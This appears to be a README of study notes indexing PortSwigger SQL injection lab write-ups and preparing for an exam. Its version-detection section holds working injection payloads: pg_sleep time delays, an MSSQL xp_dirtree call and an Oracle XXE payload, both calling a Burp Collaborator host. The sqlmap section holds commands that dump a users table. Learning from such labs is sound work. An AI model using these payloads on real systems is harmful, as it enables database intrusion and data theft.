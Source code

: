 # [SQL injection](https://portswigger.net/web-security/sql-injection)

## Lab

- apprentice:
  - [1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](./lab/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md)
    - postgresql (based on time delay)
  - [2. SQL injection vulnerability allowing login bypass](./lab/2.%20SQL%20injection%20vulnerability%20allowing%20login%20bypass.md)
    - postgresql (based on time delay)
- practitioner:
  - [3. SQL injection UNION attack, determining the number of columns returned by the query](./lab/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md)
    - postgresql (based on time delay)
  - [4. SQL injection UNION attack, finding a column containing text](./lab/4.%20SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text.md)
    - postgresql (based on time delay)
  - [5. SQL injection UNION attack, retrieving data from other tables](./lab/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md)
    - postgresql (based on time delay)
  - [6. SQL injection UNION attack, retrieving multiple values in a single column](./lab/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column.md)
    - postgresql (based on time delay)
  - [7. SQL injection attack, querying the database type and version on Oracle](./lab/7.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [8. SQL injection attack, querying the database type and version on MySQL and Microsoft](./lab/8.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft.md)
    - mssql (require space after double dash)
  - [9. SQL injection attack, listing the database contents on non-Oracle databases](./lab/9.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases.md)
    - postgresql (based on time delay)
  - [10. SQL injection attack, listing the database contents on Oracle](./lab/10.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [11. Blind SQL injection with conditional responses](./lab/11.%20Blind%20SQL%20injection%20with%20conditional%20responses.md)
    - postgresql (based on time delay)
  - [12. Blind SQL injection with conditional errors](./lab/12.%20Blind%20SQL%20injection%20with%20conditional%20errors.md)
    - oracle
  - [13. Blind SQL injection with time delays](./lab/13.%20Blind%20SQL%20injection%20with%20time%20delays.md)
    - postgresql (based on time delay)
  - [14. Blind SQL injection with time delays and information retrieval](./lab/14.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval.md)
  - [15. Blind SQL injection with out-of-band interaction](./lab/15.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction.md)
    - oracle (oob interaction)
  - [16. Blind SQL injection with out-of-band data exfiltration](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md)
  - [17. SQL injection with filter bypass via XML encoding](./lab/17.%20SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding.md)

## Version detection

server synchronous (time delay):

- mssql:
- mysql:
- postgresql

  ```sql
  '||pg_sleep(10)--
  ```

  ```sql
  ';SELECT NULL from pg_sleep(10)--
  ```

- oracle:

  ```sql
  
  ```

server asynchronous (out of band):

- mssql (maybe)

  ```sql
  ';exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'-- 
  ```

- mysql
- postgresql

- oracle:

  ```sql
  'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//collaborator/">+%25remote%3b]>'),'/l')+FROM+dual--;
  ```

## Preparation for exam

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- determine version
- blind or not
- find number of columns return by query
- check columns data type

- if blind
  - time delay check
  - time delay data retrieval
  - conditional response: compare reponse
  - conditional error: compare status code
  - oob interaction
  - oob data exfiltration

## sqlmap

technique:

- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

phase:

- sqlmap -r ~/Desktop/test-sqlmap -batch
- sqlmap -r ~/Desktop/test-sqlmap -batch -dbs
- sqlmap -r ~/Desktop/test-sqlmap -batch -D public --tables
- sqlmap -r ~/Desktop/test-sqlmap -batch -D public -T users -dump

successed: lab [5](./lab/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md), [6](./lab/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column.md), [9](./lab/9.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases.md), [10](./lab/10.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle.md), [11](./lab/11.%20Blind%20SQL%20injection%20with%20conditional%20responses.md), [14](./lab/14.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval.md)

- synchronous, time-delays

failed: lab [12](./lab/12.%20Blind%20SQL%20injection%20with%20conditional%20errors.md), [15](./lab/15.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction.md), [16](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md), [17](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md)

- asynchronous, oob (maybe portswigger labs only), tamper

## References

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
